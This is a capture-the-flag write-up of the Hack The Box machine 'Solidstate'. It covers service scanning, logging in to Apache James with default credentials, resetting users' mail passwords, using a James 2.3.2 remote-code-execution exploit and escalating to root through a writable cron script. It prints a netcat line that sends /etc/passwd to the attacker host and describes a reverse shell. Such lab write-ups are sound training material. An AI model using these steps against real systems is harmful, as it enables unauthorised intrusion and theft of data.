 # Solidstate writeup
## Discovery
As always we want to figure out what services are running on our target. Let's run nmap:  
```bash
# Nmap 7.91 scan initiated Thu Jan  7 10:19:03 2021 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.51
Nmap scan report for 10.10.10.51
Host is up (0.098s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp  open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.4 [10.10.14.4]), 
80/tcp  open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp open  pop3    JAMES pop3d 2.3.2
119/tcp open  nntp    JAMES nntpd (posting ok)
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan  7 10:19:27 2021 -- 1 IP address (1 host up) scanned in 24.52 seconds
```

We can see that there is a webserver running on port 80, and some POP3 mail related related services.
![](2021-01-07-10-20-52.png)
 Let's check out the web page. Ooh a fancy security company. I'm sure they are super secure.
![](2021-01-07-14-31-56.png)  
The website seems to be running some running some template by HTML5 Up called solid state.
![](2021-01-07-10-28-14.png)
It seems to be really just a static template with no server-side code execution. I found the source on github:
https://github.com/quimo/html5up-solid-state

In the meantime let's use dirbuster in super fast mode with a medium-sized list.
I used to just use the python tool dirsearch, but I've noticed that it's so much slower than dirbuster in multithreaded mode, so I prefer it for larger lists now.
![](2021-01-07-10-34-42.png)

Dirbuster did not really reveal anything interesting, so let's go back to our nmap scan.
While we're at that, let's run a full nmap scan with all ports, just to be sure we did not miss anything. Huzzah! We did find another port open, 4555.
```
Full nmap scan
Discovered open port 4555/tcp on 10.10.10.51
```
Googling around for `JAMES pop3d 2.3.2` exploits I found this, which should allow RCE (remote code execution) for our james pop3 server we discovered via the nmap script
https://gist.github.com/kjiwa/82d3bb091d45b59c1d7674727b1292a7

I need to change the command to be executed:
```python
gflags.DEFINE_string('command', 'cat /etc/passwd | nc 10.10.14.4 1234', 'The command to be executed.')
```
It tells us that the command will be executed the next time a user logs in to the machine.
We can't do that yet though, and I doubt that any of the users are actually being simulated.
Might be useful for later though.
Let's check out the management service that the exploit uses on port `4555`.
The exploit tells us that root/root should be the default credentials. Let's try that:
![](2021-01-07-10-46-23.png)
Success, we can now use this interface to modify users.
Just to see if we really have access, I created a user `test`:
![](2021-01-07-10-49-40.png)
There is also the command `listusers`. Hmm `mailadmin` looks juicy. Let's change his password with the `setpassword` command:
![](2021-01-07-13-05-48.png)

Connecting with the mailadmin shows no emails though unfortunately:
![](2021-01-07-13-11-05.png)

There are other juicy users though. Let's try mindy!
![](2021-01-07-13-12-07.png)

And to mix it up, let's use thunderbird to list the emails:
![](2021-01-07-13-13-42.png)

![](2021-01-07-13-13-54.png)

And indeed, poor old Mindy seems to have gotten some mail
![](2021-01-07-14-45-34.png)

```
Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: <censored>

Respectfully,
James
```

Let's log in with mindy then: `ssh mindy@10.10.10.51`

Running some commands we can see that they really don't trust this poor mindy person. She cannot run anything useful :(

![](2021-01-07-13-17-52.png)

![](2021-01-07-13-18-53.png)
The only tools she's allowed to use are in this ./bin directory. Not a lot in there though.
I think we should find a way for mindy to be free and run whatever we want. Equal rights and whatnot!
![](2021-01-07-13-19-37.png)

The easiest way I could think of would be to just append more directories to her `PATH`:
```
mindy@solidstate:~$ export PATH=/bin:/usr/local/bin/:/usr/bin/:$PATH
-rbash: PATH: readonly variable

mindy@solidstate:~$ /bin/bash 
-rbash: /bin/bash: restricted: cannot specify `/' in command names
```
But it seems that they have thought about that.
I found this article which sheds some light on restricted shells.
https://www.oreilly.com/library/view/network-security-hacks/0596006438/ch01s19.html

But wait... we still have something that we did not use yet. We can log in as a user now!
So let's try our python script from before (keen eyed people will notice it's a different python file, but the same exploit, I found this one easier to use)
![](2021-01-07-13-23-46.png)

Now we just need to log in as mindy again, and the RCE will be triggered. We get a shell in our netcat listener!
![](2021-01-07-13-24-06.png)
This shell is much more usable, it actually allows us to run commands!  
![](2021-01-07-13-24-34.png)

## Privilege Escalation
Ok now that we have a usable shell we can actually run some diagnostic tools. I'll start an updog server (what's updog? 👉😎👉 Not much just a minimal HTTP server).
![](2021-01-07-13-16-27.png)

We'll wget that from our machine and run it.
It did find some password, but it doesn't seem to work for anything. May very well be some default. (su root -> nothing)
```
/etc/apache2/sites-available/default-ssl.conf:          #        file needs this password: `xxj31ZMTZzkVA'.
```
Seems that linPEAS did not really find anything, so let's try LinEnum.
This time I actually learned about it's thorough mode with `-t`, which also does more file system checks
```bash
sh LinEnum.sh -t
```
It found something interesting! A file that is chmoded to 777 and belongs to root. It may be that it's executed periodically?
```
-e [-] World-writable files (excluding /proc and /sys)                                                                             
-rwxrwxrwx 1 root root 105 Aug 22  2017 /opt/tmp.py                                              
```

Looking at it it's a simple python file that executes a system command.
```sh
rm -r /tmp/*
```
Let's change it to execute a reverse shell:
![](2021-01-07-14-03-43.png)

And we're root!  
![](2021-01-07-14-04-02.png)

![](2021-01-07-15-01-58.png)